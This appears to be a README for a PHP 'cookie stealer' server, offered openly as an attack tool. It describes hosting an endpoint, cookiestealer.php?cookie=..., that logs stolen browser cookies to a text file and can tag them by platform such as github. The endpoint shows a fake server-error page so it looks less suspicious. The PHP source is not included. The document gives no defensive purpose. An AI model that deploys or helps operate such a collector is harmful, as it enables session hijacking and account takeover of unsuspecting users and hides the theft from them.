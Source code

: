 # Simple Cookie Stealer Server
Simple Cookie Stealer Server Built On PHP

**NOTE**
Unfortunately, It Is Not Database Integrated, It Just Writes The Data To Txt File.
I Also Have Node.js Version Of This (You Can Find It On My Github Profile)

Usage;
```
Host It Somewhere (vps, shared hosting, etc.)
Usage Is Gonna Be: yourdomain.com/cookiestealer.php?cookie=smth
When You Enter This File You Will See That We Now Have A File Called cookies.txt
Its Content Is Gonna Be Somehing Like: [UNKNOWN] smth
And The Website Output Is Something Like Temperoary Server Error, Don't Worry You Don't Have Any Problems With Your Hosting, I Just Made It Because Otherwise It Looks Suspicious.
```

Also, I added new feature And It Is platform selection
What Does This Do?
```
Lets Say You're Gonna Use This Server For Multiple Platforms Or Stuff
Then Platform Function Is Here For You!
Btw, This Feature Is Optional, You May Not Use it If you don't want to
Usage; yourdomain.com/cookiestealer.php?cookie=smth&platform=github
Output; [github] smth
```

Have A Nice Day, Thanks For Checking Out My Project
